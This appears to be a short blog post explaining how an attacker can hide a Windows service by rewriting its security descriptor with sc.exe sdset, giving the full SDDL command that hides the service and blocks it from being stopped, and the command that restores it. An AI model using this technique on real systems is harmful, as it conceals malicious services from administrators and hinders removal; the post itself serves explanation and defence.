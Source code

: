 ```yaml
---
layout: post
title: Hiding Windows Services From View
---
```


Some time last year (2020), I came across an interesting technique that allows an attacker to hide a Windows Service from view. Initially, I thought this technique would *only* hide the service from being viewed through commands like sc query, Get-Service or through the Task Manager. 

However, this is not the case. The hidden service also cannot be stopped until this technique is reversed and the service is made visible again.

-----

## Hiding a Service

> sc.exe sdset SWCUEngine "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"

The command itself is fairly simple, albeit difficult to understand at a glance. Essentially, by making use of SDDL (Service Descriptor Definition Language), an attacker can control a service's permissions and deny Interactive Users certain permissions.

To make the service visible again: 
> sc.exe sdset SWCUEngine "D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"

[More Reading](https://www.sans.org/blog/red-team-tactics-hiding-windows-services/)
